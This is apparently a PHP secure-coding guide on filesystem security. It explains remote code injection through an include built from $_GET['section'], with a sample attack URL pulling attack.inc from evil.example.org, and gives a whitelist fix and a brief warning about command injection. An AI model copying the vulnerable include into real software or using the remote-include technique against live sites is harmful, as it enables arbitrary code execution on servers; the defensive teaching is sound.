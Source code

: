 ##Filesystem Security
#### Remote Code Injection 
A remote code injection attack occurs when an attacker is able to cause your application to execute PHP code of his choosing. This can
have devastating consequences for both your application and your system. 

For example, many applications make use of query string variables such
as: ```http://example.org/?section=news``` to structure the application into
sections. One such application may use an include statement to include a
script to display the “news” section:
```php
include "{$_GET['section']}/data.inc.php";
```
When using the proper URL to access this section, the script will include the
file located at ```news/data.inc.php```. However, consider what might happen if
an attacker modified the query string to include harmful code located on a
remote site. The following URL illustrates how an attacker can do this:
```
http://example.org/?section=http%3A%2F%2Fevil.example.org%2Fattack.inc%3F
```
Now, the tainted section value is injected into the include statement,
effectively rendering it as:
```php
include "http://evil.example.org/attack.inc?/data.inc.php";
```
The application will include attack.inc, located on the remote server, which
treats ```/data.inc.php``` as part of the query string, thus effectively neutralizing
its effect within your script. Any PHP code contained in attack.inc is
executed and run, causing whatever harm the attacker intended.

It is easy to protect against it by
filtering all input and never using tainted data in an include or require
statement. In this example, filtering might be as simple as specifying a certain
set of expected values for section:
```php
$clean = array();
$sections = array('home', 'news', 'photos', 'blog');
if (in_array($_GET['section'], $sections)) {
  $clean['section'] = $_GET['section'];
} else {
  $clean['section'] = 'home';
}
```

####Command Injection
While PHP provides great power with the exec(), system(),
and passthru() functions, as well as the ` (backtick) operator, these must not
be used lightly, and it is important to take great care to ensure that attackers
cannot inject and execute arbitrary system commands.

Again, proper filtering
and escaping will mitigate the risk—a whitelist filtering approach that limits
the number of commands that users may execute works quite well here.
include $clean['section'] . "/data.inc.php";
